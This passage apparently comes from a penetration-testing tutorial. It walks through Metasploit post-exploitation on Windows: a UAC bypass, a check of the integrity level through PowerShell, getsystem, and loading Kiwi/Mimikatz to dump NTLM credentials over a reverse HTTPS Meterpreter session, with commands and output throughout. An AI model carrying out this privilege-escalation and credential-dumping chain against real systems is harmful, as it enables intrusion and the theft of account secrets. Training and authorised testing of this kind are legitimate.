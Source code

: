 Our UAC bypass post-exploitation module created a new Meterpreter session for us.

Let's check the integrity level of the process as we did before.

```bash
meterpreter > shell
Process 2328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
High
```

Te process our payload runs in has the integrity level High and therefore we have successfully bypassed UAC.

Besides being able to background an active session and execute modules through it, we can also load extensions directly inside the active session with the load command.

One great example of this is Kiwi, which is a Meterpreter extension providing the capabilities of Mimikatz. Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute met.exe as user luiza in the bind shell, and enter getsystem.

```bash
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > run
...
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```

Now, let's enter load with kiwi as argument to load the Kiwi module. Then, we can use help to display the commands of the Kiwi module. Finally, we'll use creds_msv to retrieve LM7 and NTLM8 credentials.

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > help
...
meterpreter > creds_msv
...
Username  Domain  NTLM                              SHA1
--------  ------  ----                              ----
```
